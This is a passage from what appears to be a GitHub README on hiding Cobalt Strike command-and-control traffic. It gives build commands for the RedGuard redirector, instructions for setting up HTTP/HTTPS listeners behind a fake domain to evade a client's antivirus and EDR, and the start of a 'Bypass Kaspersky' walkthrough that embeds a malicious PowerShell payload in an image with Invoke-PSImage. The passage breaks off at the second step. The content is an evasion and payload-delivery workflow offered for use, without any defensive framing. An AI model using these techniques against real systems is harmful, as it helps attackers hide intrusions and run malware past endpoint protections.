 ```
git clone https://github.com/wikiZ/RedGuard.git
cd RedGuard
go build -ldflags "-s -w"
chmod +x ./RedGuard&&./RedGuard
```

Once the setup is done, you will see something like this.

This is the default setting, you need to change your setting now in and reload the C2.

```
/root/.RedGuard_CobaltStrike.ini
```

<h2 align="center"></h2>
<img src="https://github.com/EvilGreys/Hide-Cobalt-Strike-like-a-PRO/blob/main/img2/RedGuard_configuration.png" 
<p align="center">

Now let's create and configure our listener ( https + http ) with C2, and make sure to have your own "FAKE" domain, as per your client AV, EDR.

http listener ( Port 80 ---> 8080 ).
https listener ( port 443 --> 4433 ).

<h2 align="center"></h2>
<img src="https://github.com/EvilGreys/Hide-Cobalt-Strike-like-a-PRO/blob/main/img2/Listner_https_kaspersky.png" 
<p align="center">

Once you done, you can check the C2 status.

<h2 align="center"></h2>
<img src="https://github.com/EvilGreys/Hide-Cobalt-Strike-like-a-PRO/blob/main/img2/forward_scanners_to_kaspersky_website.png" 
<p align="center">

### Bypass Kaspersky AV / EDR 12.27.2023

Well, most AV / EDR companies the important part for them to disable powershell ! the power of any shell in windows... and today i will share a public "Bypass powershell" script which will work with you in 4-5 steps.

We all hear about Invoke-Image which hide the malicious code (powershell.ps1) inside image (1.jpg), but now we will work on duplicated the encryption of the image.. i will not explain more about, the most important to import the Invoke-PSImage script in your windows lab.

1) open powershell and import Invoke-PSImage.ps1 into your powershell ( make sure AV and Windows Defender is turn off while importing the shellcode ):

```
Import-Module .\Invoke-PSImage.ps1
```

2) generate your malicious image

```
Invoke-PSImage -Script .\payload.ps1 -Out .\1.png -Image .\x.jpg -Web
```
